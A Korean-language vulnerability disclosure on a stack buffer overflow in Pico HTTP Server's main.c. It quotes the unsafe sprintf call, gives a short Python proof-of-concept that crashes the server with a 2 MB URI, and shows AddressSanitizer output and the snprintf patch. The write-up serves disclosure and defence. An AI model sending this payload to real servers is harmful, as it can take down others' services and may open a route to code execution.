

## URL

[Remote buffer overflow in main.c](https://github.com/foxweb/pico/issues/31)

## Target

- Pico HTTP Server < 7a5e4e2 이전 커밋

## Explain

Unix 환경에서 웹 서비스를 호스팅 할 수 있는 Pico HTTP Server에서 Stack Buffer Overflow 취약점이 발생했습니다.

IoT 기기나 임베디드 시스템에 경우 메모리 보호 기법이 부족하거나 전혀 없는 경우가 많아, Pico HTTP Server를 사용하는 경우 원격 코드 실행으로 이어질 수 있습니다.


```
GET(uri) {
  char file_name[255];
  sprintf(file_name, "%s%s", PUBLIC_DIR, uri);
```
취약점은 `main.c` 파일의 81번 줄 `sprintf` 함수에서 발생했습니다.

`sprintf` 함수는 PUBLIC_DIR과 uri 문자열을 결합하여 file_name 배열에 저장합니다. 이때, file_name 배열 크기보다 큰 uri를 보낼 경우 Stack Buffer Overflow가 트리거됩니다.

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8000))
sock.send(b"GET /" + b"C" * 2000000 + b"HTTP/1.1\r\nHost: localhost:8000\r\n\r\n")
response = sock.recv(4096)
sock.close()
```
위 PoC는 서버로 file_name 배열의 크기보다 큰 uri를 보내는 코드입니다.

이를 실행시켜 취약점을 트리거 해보고 Address Sanitizer로 확인해 보겠습니다.

```
==960119==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7f214c10015f at pc 0x7f214e09215c bp 0x7ffe88c08220 sp 0x7ffe88c079e0
WRITE of size 65487 at 0x7f214c10015f thread T0
    #0 0x7f214e09215b in __interceptor_vsprintf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1765
    #1 0x7f214e09233e in __interceptor_sprintf ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:1808
    #2 0x556476f2cd71 in route /home/kali/projects/fuzzing/pico/main.c:81
    ...
```
PoC 실행 결과, `0x7f214c10015f` 주소에서 65,487 byte를 WRITE 수행 중 Stack Buffer Overflow가 발생했습니다.

발생 위치는 main.c의 81번 줄로 uri가 `sprintf` 함수를 통해 file_name 배열에서 overflow가 일어났다는 것을 알 수 있습니다.




해당 취약점은 저장될 문자열의 최대 길이를 지정할 수 있는 `snprintf` 함수를 사용하는 것으로 [패치](https://github.com/foxweb/pico/commit/e2d172fc2c1384589038fb89dff4d6b65a13bb90)되었습니다.

